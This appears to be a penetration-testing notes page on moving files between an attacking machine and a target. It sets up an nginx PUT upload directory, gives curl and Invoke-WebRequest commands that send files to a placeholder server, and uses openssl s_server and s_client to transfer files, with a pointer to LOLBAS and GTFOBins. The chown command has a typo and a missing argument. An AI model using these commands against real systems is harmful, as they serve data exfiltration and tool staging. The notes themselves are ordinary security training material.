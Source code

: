<br>









## Catching Files over HTTP/S

aside from a simple http server using python and the http.server module it is also possible to setup an nginx/apache server to catch file transfers

nginx is recommended due to having less overhead and also the module system in apache introducing some security concerns

#### setting up an upload directory in nginx:

	sudo mkdir -p /var/www/html/uploads/secretUploadDir/
	sudo chwon -R /var/www/uploads/secretUploadDir/
	nano /etc/nginx/sites-available/upload-dir.conf /*
	//configuration file for upload dir
		server{
		listen 9001;
		location /secretUploadDir/ {
		root /var/www/html/uploads;
		dav_methods PUT;
		}} 
		*/
	sudo ln -s /etc/nginx/sites-available/upload-dir.conf /etc/nginx/sites-enabled/
	sudo systemctl restart nginx.service
	[if port 80 is already in use, remove default configuration file: sudo rm /etc/nginx/sites-enabled/default]

#### upload file using curl:

	curl -T [file] http://[server-ip]:9001/secretUploadDir/[destination-filename]

#### upload file using *Invoke-WebRequest* cmdlet:

	Invoke-WebRequest -Uri http://[server-ip]:[port]/[path]/[destination-filename] -Method Put -InFile [input-file]

<br>



## Living off The Land

LOLBAS and GTFOBins are tools to search for native binaries that can be used to escalate privileges, transfer files and many other things on Linux and Windows hosts

### setup https server with openssl to transfer files:

#### create certificate:
	openssl req -newkey rsa:2048 -nodes -keyout [key-name] -x509 -days 365 -out [certificate-name]

#### stand up server in attacking machine:
	openssl s_server -quiet -accept 80 -cert [certificate-name] -key [key-name] < [input file]

#### download file on target machine:
	openssl s_client -connect [server-ip] -quiet > [output-file]

<br>

